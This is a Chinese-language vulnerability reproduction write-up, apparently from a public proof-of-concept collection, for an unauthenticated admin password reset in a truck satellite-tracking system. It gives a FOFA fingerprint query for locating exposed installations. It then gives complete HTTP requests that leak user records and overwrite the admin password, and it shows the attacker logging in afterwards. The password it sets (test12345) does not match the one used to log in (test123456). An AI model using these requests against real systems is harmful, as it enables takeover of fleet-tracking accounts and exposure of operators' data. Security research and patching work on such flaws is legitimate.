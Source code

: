 # 卡车卫星定位系统存在密码重置漏洞

# 一、漏洞简介
卡车卫星定位系统是一种基于卫星通信和导航技术的系统，用于对卡车的位置进行精确测定。该系统主要由一组卫星、地面控制站和接收器组成。通过测量卫星信号的传播时间，可以确定接收器（即卡车上的定位设备）所在的位置。卡车卫星定位系统存在密码重置漏洞，攻击者可通过该漏洞重置管理员密码获取应用系统权限。

# 二、影响版本
+ 卡车卫星定位系统

# 三、资产测绘
+ fofa`icon_hash="1553867732"`
+ 特征

![1714194591684-b20fda2d-1290-42b3-ba42-1bb3e9b8eaec.png](./img/DjYibcHeiH4_N4z4/1714194591684-b20fda2d-1290-42b3-ba42-1bb3e9b8eaec-649467.png)

# 四、漏洞复现
未授权获取用户信息

```plain
GET /user/1 HTTP/1.1
Host: 
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![1714195256538-1777c084-e8eb-4a42-80dd-369a3f818ad0.png](./img/DjYibcHeiH4_N4z4/1714195256538-1777c084-e8eb-4a42-80dd-369a3f818ad0-321446.png)

未授权重置用户密码

```plain
POST /user/create HTTP/1.1
Host: 
Content-Length: 216
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: wcms5c={%22L%22:%22en-US%22%2C%22V%22:%226.0.0.0%22%2C%22HP%22:8090%2C%22FP%22:[12060%2C12061%2C12062%2C12063]%2C%22TP%22:17891%2C%22RP%22:3113}
Connection: close

account=admin&id=1&password=test12345&passwordRepeat=test12345&groupName=111&roleid=5&validend=&phone=&email=&chncount=36&flowType=1&oldFlowType=&flowVal=&flowAlarmVal=&oldFlowAlarmVal=&logContent=111&guid=222&token=
```

![1714194616666-3310af30-e319-4b92-9a19-f891d4ab050c.png](./img/DjYibcHeiH4_N4z4/1714194616666-3310af30-e319-4b92-9a19-f891d4ab050c-438896.png)

使用`admin/test123456`成功登录系统

![1714194646386-33e08fee-38dc-404f-8ac2-f2a187dd3eb6.png](./img/DjYibcHeiH4_N4z4/1714194646386-33e08fee-38dc-404f-8ac2-f2a187dd3eb6-835533.png)



> 更新: 2024-04-28 16:14:27  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ftoyh91uh1l7p5yz>